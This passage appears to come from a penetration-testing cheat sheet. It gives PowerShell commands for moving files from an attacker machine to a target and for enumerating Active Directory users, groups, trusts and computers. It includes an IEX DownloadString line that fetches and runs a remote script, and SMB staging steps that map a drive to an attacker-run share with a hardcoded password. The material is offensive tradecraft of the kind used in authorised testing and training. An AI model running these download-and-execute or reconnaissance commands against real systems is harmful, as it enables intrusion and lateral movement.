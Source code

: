 Download a file using "System.Net.WebClient" (DownloadString method with IEX cmdlet):

```
IEX (New-Object System.Net.WebClient).DownloadString('http://10.x.x.x/file.ps1')
```

### SMB

Start the server on the attacker system:

```
smbserver.py SHARE . -smb2support -username smbuser -password S0m3Pa$$W0@!
```

On the target system, create a credentials object and map a drive to the attacker box:

```
$username = 'smbuser'
$password = ConvertTo-SecureString 'S0m3Pa$$W0@!' -AsPlainText -Force
$credentialsObject = New-Object System.Management.Automation.PSCredential($username, $password)
New-PSDrive -Name TMPSHARE -PSProvider FileSystem -Credential $cred -Root \\x.x.x.x\SHARE
cd TMPSHARE:
```

## Active Directory

Most of the commands below require the "ActiveDirectory" module to be installed.

To import the module:

```
Import-module ActiveDirectory
```

### Information Gathering

Gather domain information:

```
Get-ADDomain
Get-DomainSID
Get-ADDomainController
Get-ADDomainController -Identity <DomainName>
Get-ADTrust -Filter *
Get-ADTrust -Identity <DomainName>
Get-ADForest
Get-ADForest -Identity <ForestName>
(Get-ADForest).Domains
Get-ADUser -Identity Administrator -Properties *
Get-ADUser Administrator -Properties Memberof | Select -ExpandProperty memberOf
Get-ADUser -Filter 'Name -like "*SvcAccount"' | Format-Table Name,SamAccountName -A
Get-ADUser -Filter {MemberOf -RecursiveMatch "CN=Domain Admins,OU=Users,OU=lab,DC=contoso,dc=com"}
Get-ADUser -LDAPFilter '(!userAccountControl:1.2.840.113556.1.4.803:=2)'
Get-ADComputer
Get-ADComputer -Filter *
Get-ADComputer -Filter 'Name -like "comp*"' -Properties IPv4Address | FT Name,DNSHostName,IPv4Address -A
Get-ADComputerServiceAccount
Get-ADGroup
Get-ADGroup -Identity Administrators
Get-ADGroup –LDAPFilter (member:1.2.840.113556.1.4.1941:=CN=Administrator,OU=Employees,OU=lab,DC=contoso,DC=com,)
Get-ADGroupMember
Get-ADGroupMember -Identity Administrators
Get-ADGroupMember -Identity Administrators -Recursive | ft name
Get-ADGroupMember -Identity Administrators | foreach { Get-ADUser $_ -Properties * }
Get-ADGroupMember -Recursive Administrators | ForEach {Get-ADUser -filter {samaccountname -eq $_.SamAccountName} -Properties displayName, company, title, department } | Format-Table displayName,company,department,title -AutoSize
```